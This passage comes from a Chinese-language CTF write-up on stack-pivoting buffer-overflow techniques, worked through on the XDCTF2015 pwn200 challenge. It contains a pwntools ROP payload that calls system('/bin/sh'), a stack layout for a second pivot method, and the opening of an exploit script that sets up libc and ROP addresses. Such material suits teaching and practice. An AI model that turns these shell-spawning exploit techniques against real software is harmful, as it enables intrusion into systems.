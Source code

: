  ```java 
payload = flat([libc.sym['system'],'bbbb',next(libc.search('/bin/sh'))])
r.sendline(payload)
r.interactive()

  ``` 
  
ps:小知识点：使用sendline习惯了，read函数先读缓冲区预留的内容，再读输入的内容，自己构造的时候调式了好久，还是太菜，当时一直以为这是玄学问题。 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
 
### 思路二 
第二种构造方式：读完再迁，依然以XDCTF2015的pwn200为例子进行实践。依然是需要构造一个新的也就是栈迁移，这其中包括：leave形成新栈、read函数在新的栈中读入内容、需要一个ret来控制rip进行执行。那么读完再迁就是说先把payload读完，然后再把ebp和esp一块确定到payload所在的位置。因此可以这样构造： 
 
 ```java 
  -----------------------
aaaa....                         ｜padding
-----------------------
aaaa                             ｜ebp
-----------------------
read@plt_addr            ｜ret_addr
-----------------------
0x8048369                 ｜控制执行流
-----------------------
0x0                              ｜fd
-----------------------
fake_ebp .                   ｜buf
-----------------------
0x64                            ｜nbytes
-----------------------    
pop ebp_ ret               ｜控制执行流
-----------------------    
fake_ebp                     ｜fake_ebp
-----------------------    
0x8048481                 ｜leave_ret
-----------------------          

  ``` 
  
我们看一下具体的操作： 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
 
#### 应用二 
其他内容同应用一，具体看一下这几次payload不同的地方： 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
首先是第一次，先执行完read完payload后，再次leave;ret进行迁移执行，期间由于有出栈的动作，所以得注意地址的填写，注意图一和图二中蓝色框框的地址部分即可。exp： 
 
 ```java 
  from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
elf = ELF('bed0c68697f74e649f3e1c64ff7838b8')
r = process('./bed0c68697f74e649f3e1c64ff7838b8')
rop = ROP('./bed0c68697f74e649f3e1c64ff7838b8')

offset = 112
bss_addr = elf.bss()
leave_ret = 0x08048481
read_plt = elf.plt['read']
read_got = elf.got['read']
libc = ELF('/usr/lib/i386-linux-gnu/libc-2.24.so')
read_libc = libc.symbols['read']
system_libc = libc.symbols['system']
 ```